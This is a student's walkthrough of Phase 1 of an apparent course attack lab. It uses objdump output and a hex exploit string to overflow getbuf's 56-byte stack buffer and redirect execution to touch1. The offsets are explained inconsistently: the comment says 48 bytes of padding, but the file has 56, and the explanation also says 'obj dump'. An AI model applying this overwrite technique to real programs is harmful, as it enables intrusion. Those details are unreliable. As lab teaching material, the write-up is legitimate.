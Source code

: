 # Phase1:

In this phase, we are trying to first overflow the stack with the exploit string, and change the address to the address of the touch1 function. In order to do this, we first need to find what the fixed buffer size is.

You will want to first do an object dump of the ctarget file so we can get everything we need for Phase 1, 2, and 3.
```
obj dump -d ctarget > Phase123dump.d
```
After getting the assembly, we can take a look at getbuf:
```
0000000000402601 <getbuf>:
  402601:	48 83 ec 38          	sub    $0x38,%rsp
  402605:	48 89 e7             	mov    %rsp,%rdi
  402608:	e8 95 02 00 00       	call   4028a2 <Gets>
  40260d:	b8 01 00 00 00       	mov    $0x1,%eax
  402612:	48 83 c4 38          	add    $0x38,%rsp
  402616:	c3                   	ret 
```
We see here that on line 5, it is deallocating space from the stack for what the bugger size is which is 0x38 or 56 bytes. So, this means that we need a buffer of 56 bytes (including the address of touch1).

Now, to look for the address of touch1 in the objdump file:
```
0000000000402617 <touch1>:
  402617:	50                   	push   %rax
  402618:	58                   	pop    %rax
  402619:	48 83 ec 08          	sub    $0x8,%rsp
  40261d:	c7 05 15 22 11 00 01 	movl   $0x1,0x112215(%rip)        # 51483c <vlevel>
  402624:	00 00 00 
  402627:	48 8d 3d 4e 9c 0d 00 	lea    0xd9c4e(%rip),%rdi        # 4dc27c <_IO_stdin_used+0x27c>
  40262e:	e8 7d 4e 01 00       	call   4174b0 <_IO_puts>
  402633:	bf 01 00 00 00       	mov    $0x1,%edi
  402638:	e8 df 04 00 00       	call   402b1c <validate>
  40263d:	bf 00 00 00 00       	mov    $0x0,%edi
  402642:	e8 79 ac 00 00       	call   40d2c0 <exit>
```
The address is 0000000000402617. So, now time to write our ctarget.l1.txt file:
```
00 00 00 00 00 00 00 00 /*Buffer. We need 48 bytes because 8 of the bytes will be used by the touch1 address*/
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
17 26 40 00 00 00 00 00 /*touch1 address. Remember, you need to put it in "backwards" or in little-endian form*/
```
Finally, in all the phases, we need to use the hex2raw file to generate the raw exploit strings:
```
./hex2raw < ctarget.l1.txt > exploit1.dat
```
And then run the raw file:
```
./ctarget < exploit1.dat
```
All done!